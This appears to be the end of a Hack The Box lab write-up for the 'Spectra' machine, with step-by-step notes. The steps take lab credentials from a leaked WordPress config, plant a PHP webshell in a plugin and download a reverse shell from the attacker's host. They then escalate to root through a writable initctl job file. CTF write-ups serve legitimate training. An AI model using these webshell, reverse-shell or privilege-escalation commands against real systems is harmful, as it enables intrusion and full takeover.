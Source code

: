 
## >> OH I'M SORRY, DID I BREAK YOUR CONCENTRATION?

_We made it! It's over! I can stop listening to this idiot!_ I hear you say. If we're being honest, it may be for the best this way. I've been teaching you things like stealing configs, hijacking autologon credentials, and abusing `initctl` for personal gain, fame, and fortune! I hope you've enjoyed this post, I learned quite the neat trick on initctl from playing this box - as always, ~~make sure to like and subscribe~~ keep on keeping on and happy hacking!

\- sp1icer  
      
## >> TL;DR FOR MY EFFICIENT FRIENDS

These were my short-form notes in Obsidian while doing the box.

```
# Steps
1. Visit web server, see main and testing pages
	1. `http://spectra.htb/main/index.php` - main
	2. `http://spectra.htb/testing/index.php` - testing
2. Browse around testing, find `wp-config.php.save`
	1. View source of page, find DB creds
3. Login to main branch with `Administrator :: devteam01`
4. Plugin edit to add webshell
	1. Sidebar > Plugins > Plugin Editor
	2. Top right in "Select plugin to edit", change to "Hello Dolly" and click Select
	3. Inside of PHP tag, add `echo system($_REQUEST['cmd']);`
6. `cp /usr/share/webshells/php/php-reverse-shell.php ./shell.php`
7. Edit pentestmonkey PHP revshell with correct IP, port info
9. Use webshell to download `shell.php` from us
	1. `http://spectra.htb/main/wp-content/plugins/hello.php?cmd=whoami` to test shell works
	2. Set up python webserver where `shell.php` is on Kali: `python3 -m http.server 80`
	3. `http://spectra.htb/main/wp-content/plugins/hello.php?cmd=wget http://10.10.17.239/shell.php` to download shell
	4. Set up netcat listener: `ncat -lvp 9001`
	5. Browse to `http://spectra.htb/main/wp-content/plugins/shell.php` to trigger revshell
	6. Netcat listener should have a connection from spectra.htb
10. Run linpeas, find `/etc/autologin/passwd` from output
	1. `cat /etc/autologin/passwd` to find a password
11. ssh in as `katie :: SummerHereWeCome!!`
12. user.txt
13. `sudo -l` to see that  katie can run `/sbin/initctl`
14. `sudo -u root /sbin/initctl list` to see what jobs are available, find some `test` jobs in the output
15. Navigate to `/etc/init` to find the scripts that apply to test*.conf
	1. See the original script format: `cat /etc/init/test.conf`
	2. Check file permissions on `/etc/init/test.conf` - notice that `developers` can write to it
16. Get revshell as root:
	1. Create `/tmp/rev.php` with PHP revshell contents
	2. Edit `/etc/init/test.conf` to add `exec /usr/local/bin/php /tmp/rev.php`
	3. Set up netcat listener: `ncat -lvp 9001`
	4. `sudo -u root /sbin/initctl start test`
17. root.txt
```

